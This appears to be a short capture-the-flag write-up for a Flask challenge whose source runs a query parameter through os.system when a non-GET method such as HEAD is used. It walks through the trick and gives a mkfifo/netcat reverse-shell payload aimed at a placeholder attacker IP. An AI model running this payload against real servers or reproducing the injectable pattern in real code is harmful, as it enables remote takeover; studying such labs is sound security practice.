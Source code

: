 We were given the source code for the web
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
    else:
        os.system(c)
    return c

app.run(host='0.0.0.0', port=1337)
```
This Flask application has a potential security vulnerability because it allows arbitrary command execution through the ```os.system(c)``` line when the else branch is triggered. 
The input ```url/?c=``` comes directly from the query string, which means that an attacker could inject any command via the URL and execute it on the server.

But in the initial state the web uses a GET method as the request and looking at the source code
```python
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
``` 
if the method being use is a GET result we really get that's why w now look a the ```else``` condition
```python
 else:
        os.system(c)
    return c
```
so if we make use of another request method like HEAD, which is a request method that was allowed, we will be able to get the vulnerability. which is command injection

so the payload used was  ```curl -I http://url/?c=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker IP> <port> >/tmp/f` ``` this payload was used beacuse it was a blind command injection
.
This we get us a reverse shell and we can get the flag
      
